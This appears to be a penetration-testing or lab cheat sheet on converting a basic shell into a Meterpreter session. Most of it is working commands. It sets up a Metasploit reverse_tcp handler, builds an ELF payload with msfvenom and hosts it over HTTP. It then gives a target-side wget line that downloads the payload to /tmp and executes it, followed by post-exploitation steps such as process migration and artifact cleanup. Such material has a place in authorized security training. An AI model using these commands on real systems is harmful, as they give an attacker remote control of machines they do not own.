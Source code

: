 - Manual Linux:
```
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.10
set LPORT 4444
run -j
# new terminal
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf -o meter64.elf
python3 -m http.server 8000
# on target shell
wget http://10.10.14.10:8000/meter64.elf -O /tmp/m && chmod +x /tmp/m && /tmp/m
```

- Verify and stabilize:
```
sessions -l
sessions -i <id>
sysinfo
getuid
ps
migrate <pid>   # Windows
```

## Summary
- The goal is to convert a basic command shell to a powerful Meterpreter session for post-exploitation.
- If your shell is a Metasploit session, use sessions -u or post/multi/manage/shell_to_meterpreter with LHOST/LPORT set.
- If your shell is outside Metasploit, run a handler, generate and transfer a Meterpreter payload, execute it on the target, and catch the session.
- Always verify the session and migrate to a stable process on Windows; clean up artifacts when done.